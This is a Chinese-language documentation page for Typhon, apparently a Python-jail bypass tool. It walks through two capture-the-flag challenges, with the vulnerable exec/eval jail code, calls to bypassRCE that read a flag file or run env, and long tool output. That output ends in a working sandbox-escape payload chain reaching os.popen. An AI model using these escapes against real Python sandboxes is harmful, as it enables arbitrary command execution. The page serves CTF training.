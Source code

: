 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF-Pyjail 2
-------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 ``Typhon.bypassRCE()`` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#help-rce>`_ 进行绕过即可 。

Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

.. code-block:: python
    :linenos:
    :emphasize-lines: 1,24,37

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：
- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。
- 禁止使用除 ``printable`` 字符集以外的字符。
- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 ``bypassRCE()`` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

.. code-block:: python
    :linenos:

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tip::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 ``Typhon.bypassRCE()`` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 

    对于复杂度较高的题目，可能需要等候较长时间。

.. code-block::
    :emphasize-lines: 125

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.9.0
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    INFO [-] no paths found to directly getshell.
    INFO [*] Try to get string literals from docstrings.
    Bypassing (421/421): [===============================================================================>] 100.0%
    INFO [*] Try to get string literals from __name__.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [*] string literals found: {'s': 'st.__doc__.__getitem__(0)', 't': 'st.__doc__.__getitem__(1)', 'r': 'st.__doc__.__getitem__(0b10)', 'o': 'st.__doc__.__getitem__(0b100)', 'b': 'st.__doc__.__getitem__(0b101)', 'j': 'st.__doc__.__getitem__(0b110)', 'e': 'st.__doc__.__getitem__(0b111)', 'c': 'st.__doc__.__getitem__(0b1000)', 'y': 'st.__doc__.__getitem__(0b11011)', 'u': 'st.__doc__.__getitem__(0b100100)', 'f': 'st.__doc__.__getitem__(0b100101)', 'n': 'st.__doc__.__getitem__(0b101101)', 'd': 'st.__doc__.__getitem__(0b110000)', 'i': 'st.__doc__.__getitem__(0b110001)', 'g': 'st.__doc__.__getitem__(0b110011)', 'C': 'st.__doc__.__getitem__(0b1001001)', 'a': 'st.__doc__.__getitem__(0b1001100)', 'w': 'st.__doc__.__getitem__(0b1010100)', 'm': 'st.__doc__.__getitem__(0b1100111)', 'h': 'st.__doc__.__getitem__(0b1101010)', 'v': 'st.__doc__.__getitem__(111)', 'I': 'st.__doc__.__getitem__(0b1111011)', 'p': 'st.__doc__.__getitem__(0b10010101)', 'x': 'st.__doc__.__getitem__(0b10110101)', 'l': 'st.__doc__.__getitem__(0b11010000)', 'O': 'st.__doc__.__getitem__(0b100001010)'}
    INFO [*] int literals found: {'0': '0', '1': '1'}
    INFO [-] no paths found to directly getshell.
    INFO [*] 3 paths found to obtain generator. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 3 payload(s) in total.
    INFO [*] Using (a for a in ()).gi_frame as payload of generator
    INFO [*] 2 paths found to obtain type. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__ as payload of type
    INFO [*] 6 paths found to obtain object. Try to bypass blacklist with them. Please be paitent.
    Bypassing (6/6): [===============================================================================>] 100.0%
    INFO [+] Success. 5 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1) as payload of object
    INFO [*] 3 paths found to obtain bytes. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__(st().encode()) as payload of bytes
    INFO [*] __builtins__ in this namespace is deleted, no way to restore it.
    INFO [*] try to find __builtins__ in other namespaces.
    INFO [*] 5 paths found to restore builtins in other namespaces. Try to bypass blacklist with them. Please be paitent.
    Bypassing (5/5): [===============================================================================>] 100.0%
    INFO [-] no way to find a bypass method to restore builtins in other namespaces.
    INFO [*] Trying to find inheritance chains.
    Bypassing (206/206): [===============================================================================>] 100.0%
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0))) -> builtins
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))) -> sys
    INFO [*] 2 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 2 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [-] no paths found to obtain modules.
    INFO [*] 4 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 4 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [*] 1 paths found to obtain modules. Try to bypass blacklist with them. Please be paitent.
    Bypassing (1/1): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules as payload of modules
    INFO [*] try to import modules with MODULES path.
    Bypassing (20/20): [===============================================================================>] 100.0%
    INFO [*] modules we have found:
    INFO {'builtins': <module 'builtins' (built-in)>, 'sys': <module 'sys' (built-in)>, 'os': <module 'os' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>, 'codecs': <module 'codecs' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\codecs.py'>, 'warnings': <module 'warnings' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\warnings.py'>, 'importlib': <module 'importlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\importlib\\__init__.py'>, 'reprlib': <module 'reprlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\reprlib.py'>, 'linecache': <module 'linecache' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\linecache.py'>, 'io': <module 'io' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\io.py'>}
    INFO [-] no paths found to obtain exec.
    INFO [+] Using env as the command to execute.
    INFO [*] 10 paths found to obtain __import__2RCE. Try to bypass blacklist with them. Please be paitent.
    Bypassing (10/10): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read() as payload of __import__2RCE


    WARNING [!] index 0 of st.__doc__[0] must match the string literal s.
    WARNING [!] index 4 of st.__doc__[4] must match the string literal o.
    WARNING [!] index 7 of st.__doc__[7] must match the string literal e.
    WARNING [!] index 27 of st.__doc__[27] must match the string literal y.
    WARNING [!] index 45 of st.__doc__[45] must match the string literal n.
    WARNING [!] index 111 of st.__doc__[111] must match the string literal v.
    WARNING [!] 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter.
    WARNING [!] index 1 of st.__doc__[1] must match the string literal t.
    WARNING [!] index 5 of st.__doc__[5] must match the string literal b.
    WARNING [!] index 36 of st.__doc__[36] must match the string literal u.
    WARNING [!] index 49 of st.__doc__[49] must match the string literal i.
    WARNING [!] index 208 of st.__doc__[208] must match the string literal l.
    WARNING [!] 110 is the index of StreamReaderWriter, path to builtins must fit in index of StreamReaderWriter.
    WARNING [!] index 8 of st.__doc__[8] must match the string literal c.
    WARNING [!] index 48 of st.__doc__[48] must match the string literal d.
    WARNING [!] index 2 of st.__doc__[2] must match the string literal r.
    WARNING [!] index 51 of st.__doc__[51] must match the string literal g.
    WARNING [!] index 76 of st.__doc__[76] must match the string literal a.
    WARNING [!] index 84 of st.__doc__[84] must match the string literal w.
    WARNING [!] index 103 of st.__doc__[103] must match the string literal m.
    WARNING [!] index 149 of st.__doc__[149] must match the string literal p.
    WARNING [!] index 106 of st.__doc__[106] must match the string literal h.


    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter


    +++++++++++Jail broken+++++++++++

根据 ``reminder`` 信息稍微调整payload即可得到flag。
